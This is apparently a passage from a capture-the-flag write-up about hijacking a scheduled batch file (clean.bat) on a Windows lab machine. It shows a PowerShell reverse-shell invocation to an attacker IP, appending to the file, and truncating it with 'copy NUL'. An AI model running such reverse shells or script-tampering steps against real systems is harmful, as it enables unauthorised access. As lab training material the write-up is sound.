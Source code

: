 That means I can’t just overwrite it (this shell doesn’t return errors, but it doesn’t work):

```

PS C:\users\decoder> echo "ping 10.10.14.6" > clean.bat
Invoke-PowerShellTcp : Access to the path 'C:\users\decoder\clean.bat' is 
denied.
At line:127 char:1
+ Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.6 -Port 443
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
   tion
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
   n,Invoke-PowerShellTcp

```

But I can append to it:

```

PS C:\users\decoder> echo "ping 10.10.14.6" >> clean.bat
PS C:\users\decoder> cat clean.bat 
@echo off 
del /q /s c:\users\decoder\appdata\local\TEMP\*.tmp 
exit 
  
ping 10.10.14.6

```

Still, even if that is being run, with the `exit`, nothing I add will be run.

#### Truncate

I can’t actually copy another file on top of the existing file, but for some reason, in `cmd`, I can copy `NUL` onto a file and it handles it like an append:

```

PS C:\users\decoder> cmd /c copy /y NUL clean.bat 
        1 file(s) copied.
PS C:\users\decoder> ls clean.bat

    Directory: C:\users\decoder

Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---        23/04/2022     23:26          0 clean.bat 

```

In some of the [docs](https://ss64.com/nt/copy.html), it show this is the command to create an empty file:

> Create an empty (zero byte) file:
>
> ```
